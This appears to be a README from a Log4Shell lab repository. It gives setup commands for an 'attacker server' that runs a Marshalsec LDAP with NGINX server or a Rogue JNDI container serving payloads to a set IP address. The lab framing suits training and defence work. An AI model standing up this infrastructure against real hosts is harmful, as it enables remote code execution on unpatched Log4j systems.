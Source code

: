 # Attacker Server

## Clone Repository

```bash
sudo su

git clone https://github.com/Cyb3rWard0g/log4jshell-lab
```

## Install Docker

```bash
wget https://raw.githubusercontent.com/OTRF/Blacksmith/master/resources/scripts/bash/Install-Docker.sh
chmod +x Install-Docker.sh

./Install-Docker.sh
```
## Option 1: Marshalsec LDAP and NGINX Web Servers

```bash
cd log4jshell-lab/attacker/

docker-compose -f MarshalsecLDAP-NginxWebServer.yml up --build -d
```

## Option 2: Rogue JNDI

```bash
cd log4jshell-lab/attacker/rogue-jndi/

docker build . -t rogue-jndi
docker run --rm -ti -e PAYLOAD_IP=192.168.2.6 -p 1389:1389 -p 8888:8888 rogue-jndi
```
